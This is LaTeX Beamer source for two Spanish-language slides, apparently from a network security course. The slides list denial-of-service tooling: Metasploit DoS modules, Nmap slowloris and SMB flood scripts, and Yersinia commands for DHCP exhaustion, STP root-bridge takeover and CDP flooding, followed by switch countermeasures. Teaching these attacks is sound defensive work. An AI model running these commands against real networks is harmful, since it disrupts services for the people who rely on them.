 \documentclass[aspectratio=169,11pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\newcommand{\subt}[1]{{\color{uznavy}\bfseries #1}\par\smallskip}
\begin{document}
\begin{frame}[allowframebreaks]{Herramientas}
\small
\subt{Metasploit y Nmap NSE}
  \begin{itemize}
  \item Módulos auxiliares de Metasploit:
    \begin{itemize}
    \item[] \cmdbox{auxiliary/dos/tcp/synflood}
    \item[] \cmdbox{auxiliary/dos/http/slowloris}
    \item[] \cmdbox{auxiliary/dos/windows/rdp/ms12\_020\_maxchannelids}
    \end{itemize}
  \item Scripts NSE de Nmap:
    \begin{itemize}
    \item[] \cmdbox{nmap --script http-slowloris --max-parallelism 400 \textless{}target\textgreater{}}
    \item[] \cmdbox{nmap --script smb-flood -p445 \textless{}host\textgreater{}}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{Herramientas}
\small
\subt{Yersinia: DoS contra protocolos de nivel 2}
  \begin{itemize}
  \item \href{https://www.kali.org/tools/yersinia/}{Yersinia} ataca protocolos de la capa de enlace (STP, CDP, DHCP, DTP, HSRP\dots{}), muy eficaces dentro de una LAN.
    \begin{itemize}
    \item[] \cmdbox{sudo yersinia dhcp -attack 1 \ \ \textrm{(agotamiento del pool DHCP)}}
    \item[] \cmdbox{sudo yersinia stp -attack 2 \ \ \textrm{(convertirse en root bridge)}}
    \item[] \cmdbox{sudo yersinia cdp -attack 1 \ \ \textrm{(inundación de vecinos CDP)}}
    \end{itemize}
  \item Contramedidas en el switch: \cmd{DHCP snooping}, \cmd{BPDU guard} y \cmd{port security}.
  \end{itemize}
\end{frame}
\end{document}

